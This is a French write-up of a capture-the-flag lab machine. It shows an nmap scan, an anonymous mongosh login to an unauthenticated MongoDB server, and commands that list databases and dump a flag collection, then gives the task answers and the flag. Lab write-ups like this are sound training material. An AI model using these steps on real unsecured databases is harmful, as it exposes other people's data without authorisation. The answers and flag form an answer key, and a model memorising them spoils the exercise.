 
# MONGOD

![alt text](image.png)

#mongodb #databases #reconnaissance #misconfiguration #anonymous/guestaccess

## 1. Méthodologie

Je commence toujours par la phase d'énumération avec la commande `nmap -sV -p- IP_cible`:

```
└──╼ [★]$ nmap -sV -p- 10.129.167.172
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 05:45 CST
Nmap scan report for 10.129.167.172
Host is up (0.0096s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Le port SSH est ouvert ainsi que le port 27017, sur lequel nous trouvons une database MongoDB. Nous allons tenter de se connecter au service MongoDB présent: `mongosh IP_cible`:

```
└──╼ [★]$ mongosh 10.129.167.172
Current Mongosh Log ID:	67bb0af542463ded95fa3f9d
Connecting to:		mongodb://10.129.167.172:27017/?directConnection=true&appName=mongosh+1.10.6
Using MongoDB:		3.6.8
Using Mongosh:		1.10.6

For mongosh info see: https://docs.mongodb.com/mongodb-shell/


To help improve our products, anonymous usage data is collected and sent to MongoDB periodically (https://www.mongodb.com/legal/privacy-policy).
You can opt-out by running the disableTelemetry() command.

------
   The server generated these startup warnings when booting
   2025-02-23T11:44:20.394+0000: 
   2025-02-23T11:44:20.394+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2025-02-23T11:44:20.394+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2025-02-23T11:44:21.904+0000: 
   2025-02-23T11:44:21.904+0000: ** WARNING: Access control is not enabled for the database.
   2025-02-23T11:44:21.904+0000: **          Read and write access to data and configuration is unrestricted.
   2025-02-23T11:44:21.904+0000:
------

test> 
```
On va maintenant lister les databases présentes avec la commande Mongo `show dbs` qui va lister les databases présentes:

```
test> show dbs
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
test> 
```

On va maintenant s'attacher à la base de données trouvée avec la commande `use DB_name`:

```
test> use admin
switched to db admin
admin> 
```

Maintenant, nous pouvons tenter de voir les collections associées à cette database avec la commande `show collections` :

```
admin> show collections
system.version
admin> 
```
Nous cherchons un flag donc je vais continuer à explorer les databases jusqu'à trouver une entrée flag.

```
admin> use sensitive_information
switched to db sensitive_information
sensitive_information> show collections
flag
sensitive_information> 
```

Je dois maintenant afficher cette entrée avec la commande: `db.file_name.find().pretty(.)`. Cela permet d'afficher de manière lisible l'information contenue dans l'entrée flag.

```
sensitive_information> db.flag.find().pretty()
[
  {
    _id: ObjectId("630e3dbcb82540ebbd1748c5"),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
sensitive_information> 
```

## 2. Questions

### Task 1

How many TCP ports are open on the machine?

```
2
```

### Task 2

Which service is running on port 27017 of the remote host?

```
mongodb 3.6.8
```

### Task 3

What type of database is MongoDB? (Choose: SQL or NoSQL)

```
NoSQL
```

### Task 4

What is the command name for the Mongo shell that is installed with the mongodb-clients package?

```
mongosh
```

### Task 5

What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

```
show dbs
```

### Task 6

What is the command used for listing out the collections in a database? (No need to include a trailing ;)

```
show collections
```

### Task 7

What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

```
db.flag.find().pretty()
```

### Flag

```
1b6e6fb359e7c40241b6d431427ba6ea
```
